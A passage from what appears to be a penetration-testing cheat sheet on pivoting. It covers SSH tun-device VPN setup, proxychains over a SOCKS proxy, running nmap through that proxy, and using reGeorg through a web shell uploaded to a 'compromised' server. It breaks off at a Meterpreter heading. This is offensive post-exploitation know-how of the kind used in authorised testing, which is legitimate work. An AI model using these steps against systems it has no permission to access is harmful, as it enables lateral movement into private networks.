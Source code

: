PermitRootLogin yes

PermitTunnel yes

ssh [user]@[host] -w any:any

You can see the established tun interface by typing ifconfig -a

The interfaces and forwarding must still be configured. This assumes that we are going to forward 10.0.0.0/24 through the remote server. We are also assuming that the server’s main connection is through eth0, and both client/server stood up tun0. This may be different if you already have existing VPN connections.

<span style="font-weight: bold;">Client</span>

ip addr add 192.168.5.2/32 peer 192.168.5.1 dev tun0

\# Once Server is setup, run the following to add routes

route add -net 10.0.0.0/24 gw 192.168.5.1

<span style="font-weight: bold;">Server</span>

ip addr add 192.168.5.1/32 peer 192.168.5.2 dev tun0

sysctl -w net.ipv4.ip_forward=1

iptables -t nat -A POSTROUTING -s 192.168.5.1 -o eth0 -j MASQUERADE

Proxychains
-----------

The configuration file in /etc/proxychains.conf must be edited to point towards your SOCKS proxy. Typically this is done with an SSH or other type of tunnel. Make sure your ports match.

[ProxyList]

socks4 localhost 8080

Now, in order to run any type of network through the proxy just run it like so. Remember, you can’t run any raw socket scans through a SOCKS4 proxy. You need to setup an SSH VPN tunnel or something similar for that type of functionality.

proxychains nmap 192.168.5.6

Web Shell SOCKSProxy (reGeorg)
------------------------------

[reGeorg](https://github.com/sensepost/reGeorg) is a fantastic tool for using SOCKS proxies through a compromised web server. The delivery mechanism can be aspx,asph,jsp, or php. Simply upload the desired file to the webserver.

python reGeorgSocksProxy.py -p 8080 -u http://compromised.host/shell.jsp

You are now free to use your regular tools using proxychains.

Meterpreter
-----------

[Meterpreter](https://www.metasploit.com/) allows you to create pivoting routes within the framework for use with any of the builtin modules. To automatically route, just use the following.
